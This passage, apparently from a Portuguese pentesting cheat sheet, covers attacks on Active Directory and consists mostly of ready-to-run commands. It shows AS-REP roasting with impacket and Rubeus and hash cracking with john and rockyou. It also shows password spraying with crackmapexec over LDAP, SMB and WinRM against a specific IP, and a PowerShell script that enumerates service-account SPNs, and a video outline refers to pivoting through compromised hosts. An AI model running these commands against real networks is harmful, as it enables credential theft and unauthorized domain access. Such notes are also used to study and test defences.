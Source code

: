     impacket-GetNPUsers -usersfile usernames.txt -dc-host <hostname_dc> <dominio>

ou com Rubeus

    ./r.exe asreproast /domain:<dominio> /dc:<hostname_dc>

Depois, para quebrar o(s) hash(s):

    john --format=krb5asrep -w /usr/share/wordlists/rockyou.txt hashes_temp.txt

### Referência em vídeo

![type:video](https://youtube.com/embed/xNGfCADe9tk)

0:00 Introdução
0:30 Configuração necessária para explorar a vulnerabilidade
1:30 Configuração do ambiente de teste
3:45 Obtendo nome de domínio, hostname e ip do controlador de domínio
5:20 Explorando com Rubeus no Windows
6:10 Adequando o output da ferramenta
7:00 Quebrando o hash de senha com john
10:00 Utilizando o host comprometido como pivot para os demais hosts da rede
11:25 Configurando o Proxychains
14:25 Explorando com Impacket no Linux



## Password spray

```
crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue

crackmapexec smb 10.10.11.152 -u users.txt -p passwords_test.txt --continue

crackmapexec winrm 10.10.11.152 -u users.txt -p passwords_test.txt --continue
```


## Enumerar contas de serviço

```
    setspn -F -Q */*
```

```
$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Execute Search
$results = $search.FindAll()
#Display SPN values from the returned objects
foreach ($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-Host "User Name = " $userEntry.name
    foreach ($SPN in $userEntry.servicePrincipalName)
        {
            Write-Host "SPN = " $SPN      
        }
    Write-Host ""   
}
```
